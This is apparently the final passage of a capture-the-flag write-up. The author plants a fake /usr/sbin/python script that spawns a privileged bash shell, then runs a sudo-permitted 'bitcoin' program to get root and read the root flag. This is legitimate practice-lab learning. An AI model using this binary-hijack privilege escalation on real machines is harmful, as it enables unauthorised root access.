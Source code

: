 
```bash
Orka@osboxes:~$ cat /usr/sbin/python
#!/bin/bash
/bin/bash -p
Orka@osboxes:~$ chmod +x /usr/sbin/python
```

With this in place, I could run the bitcoin program again and get my root shell.
```bash
Orka@osboxes:~$ sudo Desktop/bitcoin 
Enter the password : password
Access Granted...
                        User Manual:
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 1

root@osboxes:~# whoami
root

root@osboxes:~# cat /root/root.txt 
REDACTED
```

I took me a while to do this room. But I really had fun. In the description, ustoun0 say it's the first time they did something like this. I looked at their profile and they now have other room. I'm really looking forward to trying them. 
